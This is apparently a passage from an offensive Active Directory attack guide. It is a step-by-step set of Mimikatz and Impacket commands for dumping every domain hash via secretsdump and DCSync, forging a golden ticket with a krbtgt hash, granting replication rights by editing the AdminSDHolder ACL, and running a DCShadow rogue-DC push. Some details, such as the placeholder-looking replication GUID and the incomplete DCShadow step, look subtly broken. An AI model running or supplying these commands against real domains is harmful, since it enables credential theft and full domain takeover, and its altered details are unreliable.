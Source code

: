 #### Impacket secretsdump.py  
```bash
python3 secretsdump.py corp.local/administrator@dc01.corp.local
```
**Expected Output**: Domain user hashes.

#### Mimikatz DCShadow  
```powershell
mimikatz.exe
privilege::debug
kerberos::golden /user:corp\DCShadow1$ /domain:corp.local /sid:S-1-5-21-... /krbtgt:7c6a180b36896a0a8c02787eeafb0e4c /id:11223344 /groups:512 /ptt
lsadump::dcshadow /push
```

### Step-by-Step Guide  

#### Scenario A: Have Replication Rights  
- Run DCSync with Mimikatz:  
  ```powershell
  mimikatz.exe 'lsadump::dcsync /domain:corp.local /user:krbtgt' 'exit'
  ```  
- **Expected Output**: All domain user hashes.

#### Scenario B: Exploit ACL on AdminSDHolder  
- Check ACL:  
  ```powershell
  $aclSDH = Get-Acl "AD:CN=AdminSDHolder,CN=System,DC=corp,DC=local"
  $aclSDH.Access | Where-Object { $_.ActiveDirectoryRights -match "WriteDacl" }
  ```  
- **If “ShadowGroup” has WriteDACL**:  
  ```powershell
  $path = "AD:CN=AdminSDHolder,CN=System,DC=corp,DC=local"
  $acl = Get-Acl $path
  $rule = New-Object System.DirectoryServices.ActiveDirectoryAccessRule("corp\ShadowGroup","ExtendedRight","Allow","00000000-0000-0000-0000-000000000012")
  $acl.AddAccessRule($rule)
  Set-Acl -AclObject $acl $path
  ```
- Now members of `ShadowGroup` have replication rights. Perform DCSync.

#### Scenario C: DCShadow Attack  
- Generate Golden Ticket for rogue DC:  
  ```powershell
  Mimikatz.exe 'kerberos::golden /user:corp\DCShadow1$ /domain:corp.local /sid:S-1-5-21-... /krbtgt:7c6a180b36896a0a8c02787eeafb0e4c /id:11223344 /groups:512 /ptt'
  ```
- Register Rogue DC and push changes:  
  ```powershell
  mimikatz.exe 'lsadump::dcshadow /push'
  ```

### Common Pitfalls  
- Running DCSync on RODC fails.  
- Using wrong GUID for `DS-Replication-Get-Changes`.  
- Forgetting to test effective rights for ACL modifications.
